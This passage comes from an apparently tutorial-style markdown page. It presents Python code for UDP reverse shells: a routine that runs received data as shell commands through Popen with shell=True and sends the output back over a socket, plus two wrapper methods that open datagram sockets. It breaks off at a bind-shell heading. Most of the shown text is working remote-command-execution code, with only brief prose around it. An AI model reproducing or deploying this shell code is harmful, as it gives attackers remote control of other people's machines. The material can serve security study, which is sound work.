 ```python
            sock.send(f"{path} does not exit".encode())
            continue
        
        if serve: print(f"{ip}:{port}> {data}")
        proc = Popen(
            args   = data,
            stdout = PIPE, 
            stderr = STDOUT, 
            shell  = True
        )

        # stdout contains stderr
        message = proc.stdout.read()
        if serve:
            bytesSent = sock.sendto(message, (ip,port))
        else:
            bytesSent = sock.sendto(message, target)
        
        if bytesSent != len(message):
            print("Data lost")
```

# Reverse Shell (UDP Client)

With UDP/IP reverse shells you'll notice the disappearence of the connect method. This is due in part to the protocol being connectionless. The socket object is created like before, but this time with the SOCK_DGRAM constant.

```python
@infinite
def reverse_shell_udp(self):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

    print(f"Comms: {self.__host}:{self.__port}")

    self._spawn_udp(sock, self.addr)
    sock.close()
```

The with statement context manager creates an even more succinct UDP reverse shell.

```python
@infinite
def reverse_shell_udp_context(self):
    with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as sock:

        print(f"Comms: {self.__host}:{self.__port}")

        self._spawn_udp(sock, self.addr)
```

# Bind Shell (UDP Server)
